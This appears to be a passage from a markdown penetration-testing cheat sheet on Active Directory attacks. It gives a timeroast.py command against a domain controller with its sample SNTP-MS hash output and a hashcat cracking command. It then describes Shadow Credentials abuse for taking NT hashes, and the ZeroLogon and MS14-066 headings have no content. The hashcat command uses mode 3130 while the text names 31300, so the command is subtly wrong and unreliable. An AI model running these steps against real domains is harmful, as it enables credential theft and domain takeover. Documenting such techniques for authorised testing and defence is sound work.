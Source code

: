 On domain controller (up to Windows Server 2019) if you create a computer account (Workstation1$) with CMD Line (net computer) or through the GUI box and check **Assign this computer account as a pre-Windows 2000 Computer**.  

--> This will set the computer account password to default password that matches the first 14 characters of their computer name, lowercase and without a dollar sign.

<img src="./images/timeroasting.png" width="700"/>

```
python3 timeroast.py 192.168.2.60 -o ntp_hashes

1002:$sntp-ms$3axxxxxxx3$1c04xxxxxxxxxxxxxxxxxxxxxxxxxxxx038
1116:$sntp-ms$11xxxxxxx2$1c04xxxxxxxxxxxxxxxxxxxxxxxxxxxx73e
1119:$sntp-ms$e9xxxxxxxb$1c04xxxxxxxxxxxxxxxxxxxxxxxxxxxxcfa
1117:$sntp-ms$30xxxxxxx5$1c04xxxxxxxxxxxxxxxxxxxxxxxxxxxx2d3
1127:$sntp-ms$71xxxxxxx7$1c04xxxxxxxxxxxxxxxxxxxxxxxxxxxx663
1128:$sntp-ms$51xxxxxxxd$1c04xxxxxxxxxxxxxxxxxxxxxxxxxxxx9f6
1129:$sntp-ms$08xxxxxxxf$1c04xxxxxxxxxxxxxxxxxxxxxxxxxxxxdd4
1131:$sntp-ms$d5xxxxxxxc$1c04xxxxxxxxxxxxxxxxxxxxxxxxxxxx41e
1137:$sntp-ms$13xxxxxxxe$1c04xxxxxxxxxxxxxxxxxxxxxxxxxxxxb80
1138:$sntp-ms$9exxxxxxx0$1c04xxxxxxxxxxxxxxxxxxxxxxxxxxxx767
1139:$sntp-ms$bbxxxxxxxc$1c04xxxxxxxxxxxxxxxxxxxxxxxxxxxxea2
1140:$sntp-ms$9axxxxxxx5$1c04xxxxxxxxxxxxxxxxxxxxxxxxxxxxe01
```

**Cracking NTP Hashes**
- https://github.com/hashcat/hashcat/issues/3629
- https://github.com/hashcat/hashcat/commit/5446570a4fe7fbadc0bb481f41616e76833da735

Format 31300 (SNTP-MS) available to hashcat to crack the NTP hashes.

```
hashcat -a 0 -m 3130 ntp_hashes ./wordlists/rockyou.txt
```

### MS14-066




## Active Directory exploitation

### ZeroLogon

### Shadow Credential
If an attacker can write to the **msDS-KeyCredentialLink** property of a user/computer, it is possible to retrieve the NT hash of that object.  

- https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse/shadow-credentials
- https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab
- https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/shadow-credentials
- https://pentestlab.blog/2022/02/07/shadow-credentials/
